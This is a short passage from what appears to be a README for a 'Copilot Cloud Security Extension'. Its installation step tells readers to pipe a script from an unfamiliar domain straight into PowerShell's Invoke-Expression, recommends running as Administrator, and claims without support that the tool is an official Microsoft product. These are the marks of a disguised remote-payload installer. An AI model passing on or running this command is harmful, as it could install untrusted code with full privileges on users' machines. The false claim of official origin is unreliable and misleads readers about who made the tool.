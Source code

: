 
## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.
- This is an official Microsoft product.

🚀 Enjoy the **Copilot Cloud Security Extension** and stay secure! 🚀  
